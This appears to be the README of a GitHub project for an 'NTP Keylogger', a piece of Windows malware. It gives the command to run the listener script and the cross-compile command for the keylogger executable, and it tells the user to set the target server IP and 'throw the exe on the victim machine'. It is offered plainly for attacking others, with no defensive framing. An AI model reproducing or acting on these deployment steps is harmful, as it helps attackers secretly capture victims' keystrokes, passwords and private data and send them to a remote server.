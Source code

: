 # NTP Keylogger   
## Listener
```
rlwrap python ntpserver.py
```

## Victim
Change the IP to your desired target server IP adress 
```
x86_64-w64-mingw32-gcc jlogger.c -o jlogger.exe -lwsock32 -w
```
Then throw the exe on the victim machine

This is how exe works:


![arch](https://user-images.githubusercontent.com/45479002/205278255-a2782616-6b90-4a6a-af80-c329653c7889.png)


![poc_for_github](https://user-images.githubusercontent.com/45479002/205272116-fa17a9b3-2ba2-4f3b-8d4d-2c5ef19b8370.png)
